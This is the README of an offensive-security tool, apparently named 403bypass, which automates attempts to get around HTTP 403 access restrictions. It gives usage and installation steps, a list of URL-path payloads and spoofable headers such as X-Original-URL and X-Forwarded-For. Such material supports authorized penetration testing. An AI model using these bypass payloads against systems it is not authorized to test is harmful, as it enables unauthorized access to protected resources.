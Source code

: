 # 403bypass

A tool that automates 403 bypassing techniques. 
The script ignores responses where the status code is equal to 404 ot 403, because of that, the output can be a bit a large.

# Usage

```bash
echo "https://target.com/this/is/a/403/page" | 403bypass
```

```bash
cat urls.txt | 403bypass
```

# Installation

1 - Install httpx (https://github.com/projectdiscovery/httpx) (used for http validaton and status code/response size grabbing)

2 - `curl https://raw.githubusercontent.com/felipecaon/403bypass/main/403bypass.sh > /usr/local/bin/403bypass`

3 - `chmod +x /usr/local/bin/403bypass`

# Workflow

Generates a list of known payloads:

```
http://example.com
http://example.com/.
http://example.com/./
http://example.com/*
http://example.com..;/
http://example.com;/
http://example.com/%20
http://example.com/%2e
http://example.com/~
http://example.com/%09
http://example.com/.json
http://example.com/<encoded>
http://example.com.json
http://<domain-api>.com
http://example.com/.;/
http://example.com/#
http://example.com/?gg
http://example.com/%20/
http://example.com/%2e/
http://example.com/./
http://example.com//
https://example.com
```

The payloads above are requested using `GET`, `POST` and `PUT` methods. Additionaly, every request is made using a potentially vulnerable header from the list:

## Headers:
```
X-Forwarded-For
X-Forwarded-Host
X-Custom-IP-Authorization
X-Custom-IP-Authorization+..;/
X-Original-URL
X-Rewrite-URL
X-Originating-IP
X-Remote-IP
X-Client-IP
X-Host
X-Remote-Addr
```

# Contributing

Feel free to open issue or PR with additional payloads.


# Credits

Main structure is made by Raywando, https://github.com/Raywando/4xxbypass
For a more complete set, go to https://github.com/cyal1/bypass-40x
